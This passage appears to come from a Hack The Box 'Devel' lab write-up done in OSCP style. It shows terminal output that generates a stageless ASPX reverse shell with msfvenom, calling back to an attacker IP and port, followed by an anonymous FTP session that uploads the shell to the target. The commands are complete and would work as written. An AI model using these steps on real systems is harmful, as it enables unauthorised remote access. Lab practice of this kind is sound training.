 ## Upload ASPX reverse shell through FTP

Generate stageless reverse shell with **msfvenom**

> Not using meterpreter to simulate OSCP exam environment
{: .prompt-info }

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ msfpc aspx stageless cmd tun0 1111
 [*] MSFvenom Payload Creator (MSFPC v1.4.5)
 [i]   IP: 10.10.14.70
 [i] PORT: 1111
 [i] TYPE: windows (windows/shell_reverse_tcp)
 [i]  CMD: msfvenom -p windows/shell_reverse_tcp -f aspx \
  --platform windows -a x86 -e generic/none LHOST=10.10.14.70 LPORT=1111 \
  > '/home/kali/htb/Devel/windows-shell-stageless-reverse-tcp-1111.aspx'

 [i] windows shell created: '/home/kali/htb/Devel/windows-shell-stageless-reverse-tcp-1111.aspx'

 [i] MSF handler file: '/home/kali/htb/Devel/windows-shell-stageless-reverse-tcp-1111-aspx.rc'
 [i] Run: msfconsole -q -r '/home/kali/htb/Devel/windows-shell-stageless-reverse-tcp-1111-aspx.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!

┌──(kali㉿kali)-[~/htb/Devel]
└─$ mv windows-shell-stageless-reverse-tcp-1111.aspx about.aspx
```

Login to ftp with anonymous authentication, and upload the reverse shell

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ ftp ftp://anonymous:''@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.

ftp> put about.aspx
local: about.aspx remote: about.aspx
229 Entering Extended Passive Mode (|||49181|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************************************************************************************************|  2705       31.84 MiB/s    00:00 ETA
226 Transfer complete.
2705 bytes sent in 00:00 (43.66 KiB/s)
ftp>
```
